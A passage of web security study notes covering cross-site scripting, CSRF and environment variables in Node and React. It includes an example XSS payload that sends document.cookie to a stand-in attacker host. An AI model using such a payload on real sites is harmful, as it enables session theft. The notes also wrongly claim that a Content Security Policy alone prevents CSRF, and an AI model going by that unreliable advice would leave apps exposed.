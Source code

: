*e.g.* comments on a blog that are not escaped can be used to send scripts to all the users who visit that page (similar to JavaScript injections).

What a lot of attackers will do is set `window.location` to the value they want, sending the user to whatever page the attacker wants. They can also send the cookies of the current website, which often are used to save user session. This is called **session hijack**.
```javascript
window.location = 'haxxed.com?cookie='+document.cookie
```

To prevent this, always **sanitize user input**, and **never use** `eval()` or `document.write()`

## Cross-Site Request Forgery (CSRF)
__Cross-Site Request Forgery (CSRF)__ → often involves in the user clicking on a link with a request to a server. If the user is already signed-in to a service, *e.g.* bank account, the attacker can exploit this and send requests to our server. Since the user is sign-in, the server will trust this request. It **exploits the trust that a site has in a user's browser**.

To prevent such attack, the only thing we need to do is set the **Content Security Policy** headers. It will tell the browser what places can do we (the website) trust to run scripts. We can also prevent the user's cookies to be accessed so easily, by setting the `httpOnly` and `secure` cookie headers.
```javascript
app.get('/', (req, res) => {
  // Secure the cookie
  res.cookie('session', '1', { httpOnly: true, secure: true })
  // Set the Content Security Policy header
  res.set({
    'Content-Security-Policy': "script-src 'self' 'https://api.example.com'",
  })
  // Send the response
  res.send('Hello Word!')
})
```

# Code Secrets
**Environment variables** provide a way to inject variables into our code from the "outside world". They are often used to save API keys, and database credentials. Ideally, they should be kept as secret as possible, and never never include them in public repos.

Traditionally, they are saved on a *.env* file.

On a NodeJS server, we can use the [dotenv](https://www.npmjs.com/package/dotenv) package to load our variables into `process.env`.

### React
Internally, *create-react-app* gives us access to environment variables through `process.env`. By default, we have access to `process.env.NODE_ENV`, which indicates whether if we are on a production build or development one. This is useful, since we can run things like analytics only on production or development mode.

To create our own enviroment variables, we add them into an *.env* file, with the prefix `REACT_APP_`.
